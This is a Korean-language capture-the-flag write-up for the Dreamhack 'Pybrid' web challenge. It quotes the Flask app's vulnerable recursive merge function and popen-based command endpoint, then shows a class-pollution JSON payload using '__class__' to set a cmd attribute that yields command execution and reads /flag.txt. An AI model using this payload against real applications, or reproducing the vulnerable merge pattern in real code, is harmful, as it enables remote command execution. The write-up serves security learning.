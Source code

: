```yaml
---
layout: single
title: "[Dreamhack] Pybrid write-up"
date: 2025-06-23 14:06 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] Pybrid

### 문제 설명

- 조직을 관리하기 위한 간단한 서비스입니다.

  서비스의 취약점을 찾고 익스플로잇하여 플래그를 획득하세요!

  플래그 형식은 DH{...} 입니다.

<br>

### ✏️ 풀이

문제에 접속해보면 멤버에는 admin이 존재하고 위의 ADD MEMEBER를 통해 멤버를 추가할 수 있다.

![image-20250620151437825](/images/2025-06-20-Pybrid/image-20250620151437825.png)

![image-20250620151532408](/images/2025-06-20-Pybrid/image-20250620151532408.png)

<br>

principal 클래스를 살펴보면 command 함수에서 cmd 속성이 있다면 그대로  command 변수에 담아주고, 아니면 `echo Permission Denied` 를 command에 저장한다.

```python
class Principal(Teacher): 
    def __init__(self, name):
        super().__init__(name)
        self.role = "principal"

    def command(self):
        command = self.cmd if hasattr(self, 'cmd') else 'echo Permission Denied'
        return f'{popen(command).read().strip()}'
```

<br>

/execute 경로에서는 principal의 command를 실행할 수 있는 것 같다.

```python
@app.route('/execute', methods=['GET'])
def execute():
    return jsonify({"result": principal.command()})
```

<br>

/add_member 에서는 member 추가 가능이 있고, /members 에서는 멤버들의 이름과 role들을 json 형식으로 확인할 수 있다.

```python
@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        
        name = data.get("name")
        role = data.get("role")
        
        if role == "teacher":
            new_member = Teacher(name)
        elif role == "student":
            new_member = Student(name)
        elif role == "substitute_teacher":
            new_member = SubstituteTeacher(name)
        elif role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        else:
            return jsonify({"message": "Invalid role"}), 400
        
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
    return render_template('add_member.html')

@app.route('/members', methods=['GET'])
def get_members():
    return jsonify({"members": members})
```

<br>

일단 /add_member 경로에서 select로 principal을 선택할 수 없기 때문에 아래처럼 student role을 만드는 패킷을 잡고, role을 principal로 변경해보자.

![image-20250620170300702](/images/2025-06-20-Pybrid/image-20250620170300702.png)

![image-20250620165858735](/images/2025-06-20-Pybrid/image-20250620165858735.png)

<br>

아래처럼 test1의 이름으로 principal role 계정을 만들었다. 하지만 cmd 속성이 없기 때문에 /execute에 접속해봐도 Permission Denied가 뜨는 것을 볼 수 있다.

![image-20250620170245421](/images/2025-06-20-Pybrid/image-20250620170245421.png)

![image-20250620170401365](/images/2025-06-20-Pybrid/image-20250620170401365.png)

<br>

소스코드를 다시 보면 /add_member에서 principal 계정만 추가할 때 merge 함수를 통해서 principal 객체에 속성을 동적으로 추가하는 것을 알 수 있다. 하지만 일반적으로 cmd 속성을 추가하여 만들면 new_member에 추가되기 때문에 전역 principal 객체 속성에 추가를 해주어야 한다.

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        
        name = data.get("name")
        role = data.get("role")
        
        if role == "teacher":
            new_member = Teacher(name)
        elif role == "student":
            new_member = Student(name)
        elif role == "substitute_teacher":
            new_member = SubstituteTeacher(name)
        elif role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        else:
            return jsonify({"message": "Invalid role"}), 400
        
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
    return render_template('add_member.html')
```

<br>

따라서 merge 함수에 의해 principal 전역 객체에 속성을 추가하기 위해서는 `__class__` 를 이용해 접근할 수 있다. 아래와 같이 요청하면 merge 함수에 의해 principal 전역 객체에 속성이 추가될 수 있다.

```python
{
  "name": "principal",
  "role": "principal",
  "__class__": {
    "cmd": "id"
  }
}
```

<br>

아래와 같이 요청하고 /execute 경로에 접근하면 ls 명령어가 잘 입력되어 출력되는 것을 확인할 수 있다.

![image-20250623174646253](/images/2025-06-23-Pybrid/image-20250623174646253.png)

![image-20250623174700862](/images/2025-06-23-Pybrid/image-20250623174700862.png)

<br>

이제 cmd 명령에서 cat /flag.txt로 바꿔주면 flag를 획득할 수 있다.

![image-20250623174834518](/images/2025-06-23-Pybrid/image-20250623174834518.png)

![image-20250623174853022](/images/2025-06-23-Pybrid/image-20250623174853022.png)
